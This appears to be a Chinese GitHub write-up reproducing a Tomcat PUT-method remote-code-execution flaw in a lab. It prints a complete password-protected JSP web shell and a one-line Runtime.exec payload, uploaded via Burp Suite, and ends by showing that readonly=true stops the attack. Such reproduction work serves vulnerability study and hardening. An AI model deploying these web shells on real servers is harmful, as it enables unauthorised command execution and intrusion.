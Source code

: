 # TOMCAT RCE 1
TomcatRCE漏洞复现
## 1、       介绍：
## 2、       环境搭建：
### 1、       下载问题版本tomcat，地址：`https://archive.apache.org/dist/tomcat/`
### 2、       在windows上安装tomcat<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.1.png)<br>
### 3、       设置readonly配置（配置文件路径为conf/web.xml），该配置禁止（false）时将开启put方法，默认是true。<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.2.png)<br>
查看目前支持的方法：<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.3.png)<br>
在servlet中添加：readonly属性为false<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.4.png)<br>
使用burpsuite抓包：（采用put方法，设置成功）<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.5.png)<br>
环境搭建完毕。
## 3、       漏洞复现：
准备payload:
先准备jsp文件：
```jsp
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
 
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("123456".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println("ok");}%>
```
将该段代码复制到burpsuite表单位置：<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.6.png)<br>
浏览器链接jsp：<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.7.png)<br>
表示上传成功；
执行命令：<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.8.png)<br>
证明命令执行成功。
也可以使用简单的payload：
```<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>```<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.9.png)<br>
将readonly策略开启（设置为true）：<br>
![image](https://github.com/tiaowang1132/poc/blob/master/vuln-test-image/t.10.png)<br>
则不成功。


